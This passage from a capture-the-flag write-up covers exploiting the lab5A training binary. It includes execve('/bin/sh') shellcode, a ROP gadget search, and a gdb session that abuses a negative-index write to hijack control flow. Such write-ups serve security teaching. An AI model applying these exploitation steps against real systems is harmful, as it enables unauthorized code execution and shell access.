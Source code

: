 ```nasm
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414141 in ?? ()
```

Awesome. It was the easy part. Now, we need to build the ROP chain.

## ROP Chain

Like in the last challenge, we can try to execute `execve("/bin/sh")`to get a shell. The prototype for the shellcode will look like this:

```nasm
xor eax, eax
xor ecx, ecx
xor ebx, ebx
xor edx, edx
mov eax, 0x0b
mov ebx, <ptr to "/bin/sh">
int 0x80
```

However, this level have some restrictions, including the fact that we can only write chunks of 8 bytes followed by 4 bytes which we cannot write to due to the condition `index % 3 == 0`. So, we need to make sure that our ROP chain does not go into a reserved 4-byte chunk.

Also, we will avoid writing at negative index because it could mess up the execution flow. So, the first gadget should redirect the execution flow on `data[1]` and go from there. We already know that the `data[]` array is at `0xbffff508` and we had to remove 44 bytes to that value to overwrite the execution address, we need to find a gadget that will add 44 bytes to ESP and return.

```bash
lab5A@warzone:/levels/lab05$ ropgadget ./lab5A | grep "add esp, 0x2c ; ret"
0x08049bb7 : add esp, 0x2c ; ret
```

Nice! Let's see if we can use this gadget. First, we will store **1094795585** (or `0x41414141`) at offset 1 and **134519735** (`0x08049bb7`) at offset -11.

```nasm
$ gdb -q ./lab5A
Reading symbols from ./lab5A...(no debugging symbols found)...done.
gdb-peda$ run
Starting program: /levels/lab05/lab5A
----------------------------------------------------
  Welcome to doom's crappy number storage service!
          Version 2.0 - With more security!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   doom has reserved some storage for himself :>
----------------------------------------------------

Input command: store
 Number: 1094795585
 Index: 1
 Completed store command successfully
Input command: store
 Number: 134519735
 Index: -11

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
```